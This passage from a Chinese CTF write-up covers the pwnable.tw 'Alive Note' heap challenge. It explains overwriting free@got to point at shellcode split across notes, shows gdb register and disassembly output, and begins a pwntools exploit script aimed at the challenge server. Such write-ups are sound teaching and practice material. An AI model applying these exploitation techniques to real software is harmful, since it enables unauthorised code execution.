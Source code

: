 思路基本上就是第一次 add 的时候把 `free@got` 修改为堆上的 shellcode，接下来把 shellcode 分段送上去，最后 delete 掉第一次的 note 来执行 shellcode。先看看寄存器的状态：

```
───────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────
 EAX  0x99a9008 ◂— 0x58 /* 'X' */
 EBX  0x0
 ECX  0x0
 EDX  0x0
 EDI  0xf76cb000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 ESI  0xf76cb000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 EBP  0xffd6f598 —▸ 0xffd6f5a8 ◂— 0x0
 ESP  0xffd6f56c —▸ 0x80488ef (del_note+81) ◂— add    esp, 0x10
 EIP  0x80484e0 (free@plt) ◂— jmp    dword ptr [0x804a014]
────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────
 ► 0x80484e0 <free@plt>    jmp    dword ptr [0x804a014]
    ↓
   0x99a9008               pop    eax
   0x99a9009               add    byte ptr [eax], al
   0x99a900b               add    byte ptr [eax], al
   0x99a900d               add    byte ptr [eax], al
   0x99a900f               add    byte ptr [eax], al
   0x99a9011               add    byte ptr [eax], al
   0x99a9013               add    cl, dh
   0x99a9015               lar    eax, word ptr [eax]
   0x99a9018               add    byte ptr [eax], al
   0x99a901a               add    byte ptr [eax], al
```

可以看到 `eax` 是指向了 shellcode，其他几个系统调用会用到的寄存器为 0。接下来要解决的主要问题就是中间的 padding 部分怎么绕过。可以把 `eax` 指向栈上，这样就不会干扰到，但这样的话在构造 shellcode 的时候还是挺麻烦的。最好的方法就是充分利用几个跳转指令，就不用在意中间的 padding，只需要计算好跳转的偏移，构造起来也比较麻烦，但效果远比前一种方法好。这里主要参考了这个 [Exploit](https://github.com/HyperSine/pwnable.tw/blob/master/Alive%20Note/solve.py)（几处跳转构造得太秀了）：

```python
#!/usr/bin/env python
from pwn import *

context.log_level = 'debug'

local = 1
if local:
	p = process('./alive_note')
else:
	p = remote('chall.pwnable.tw', 10300)

elf = ELF('./alive_note')

def cmd(c):
	p.recvuntil('choice :')
	p.sendline(str(c))

def add(idx, name):
	cmd(1)
	p.recvuntil('Index :')
	p.sendline(str(idx))
	p.recvuntil('Name :')
	p.sendline(name)

def show(idx):
	cmd(2)
	p.recvuntil('Index :')
	p.sendline(str(idx))
```